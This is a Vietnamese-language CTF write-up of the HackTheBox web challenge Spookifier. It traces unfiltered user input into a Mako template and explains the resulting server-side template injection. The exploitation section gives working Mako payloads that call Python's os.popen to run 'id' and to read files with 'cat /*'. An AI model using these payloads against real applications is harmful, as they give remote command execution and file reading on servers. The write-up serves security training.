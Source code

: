# 🏴‍☠️ CTF Writeup – [Spookify]

## 📌 Thông tin chung
- **Challenge:** Spookify
- **CTF Event:** HackTheBox Challenges 
- **Category:** Web 
- **Difficulty:** Very Easy  

---

## 📜 Mô tả đề bài
> There's a new trend of an application that generates a spooky name for you. Users of that application later discovered that their real names were also magically changed, causing havoc in their life. Could you help bring down this application?
- File/URL cung cấp: [Thử thách](https://app.hackthebox.com/challenges/Spookifier) 
- Thông tin thử thách :  ![alt text](image.png)

---

## 🔎 Recon / Ý tưởng ban đầu
- Quan sát ban đầu: Thử thách whitebox, sử dụng python
- Các thử nghiệm đầu tiên: 
    - Review src code:
        - Trang web với chức năng chính nhập vào `text` sau đó hiển thị ra với 4 loại font khác nhau

        `routes.py`
        ![alt text](image-1.png)
        - Kiểm tra nội dung file `util.py` để xem cách thực hiện của server.

        `util.py`
        - Sử dụng template Mako để render 
        ![alt text](image-2.png)
        - Lấy trực tiếp kết quả results làm đầu vào mà không có lọc 
        ![alt text](image-3.png)
        ![alt text](image-4.png)
- Kết quả/ghi chú:  Trang web lấy toàn bộ đầu vào người dùng sau đó đổi sang thành 4 loại font khác nhau và sử dụng Mako Template render trực tiếp.

---

## 🧩 Phân tích
- Giải thích lỗ hổng / kỹ thuật chính: Với phân tích từ trên, có thể dễ dàng thấy trang web đang mắc lỗ hổng nghiêm trọng gây ra RCE là `Server-side template injection` 
- Tại sao có thể khai thác: Với đầu vào trực tiếp và không hề có bộ lọc, chính vì thế dữ liệu nhập vào hoàn toàn được kiểm soát bới người dùng
---

## 🚀 Khai thác / Giải pháp
- Các bước exploit:  
    - Payload:
        ```python
        ${__import__('os').popen('id').read()}
        ```
    - Kết quả thu được:
        ![alt text](image-5.png)
    - Đọc flag
        ```python
        ${__import__('os').popen('cat /*').read()}
        ```    
        ![alt text](image-6.png)